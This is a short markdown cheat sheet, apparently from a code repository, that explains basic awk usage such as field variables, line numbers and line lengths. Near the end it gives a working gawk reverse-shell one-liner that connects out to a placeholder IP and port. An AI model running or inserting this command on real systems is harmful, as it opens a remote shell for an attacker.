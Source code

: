 ## awk
For each record i.e line, the awk command splits the record delimited by whitespace character by default and stores it in the $n variables. If the line has 4 words, it will be stored in $1, $2, $3 and $4 respectively. Also, $0 represents the whole line.

    awk '{print $1,$4}' text.txt
this is would print the first and fourth word of each line in text.txt

---
    awk '{print NR "- " $1 }' text.txt
NR is a built in variable and displays the number of what line
for example:
1 - firstLineOfText
2- SecondLineOfText
3 - ThirdLineofText

Examples of things you can do with awk:
---
print number of lines in a file

    awk 'END { print NR }' text.txt

find the length of the longest line present in the file

    awk '{ if (length($0) > max) max = length($0) } END { print max }' text.txt


awk isnt just limited to filtering out file content you can also standard programming things like printing out text

    awk 'BEGIN { print "Hello World!"}'

you can also get a reverse shell with awk

    awk 'BEGIN {s = "/inet/tcp/0/insertiphere/insertporthere"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null


---
there are several implementations of awk like gawk, nawk, mawk and probably more

for more advanced operations you can use sed 


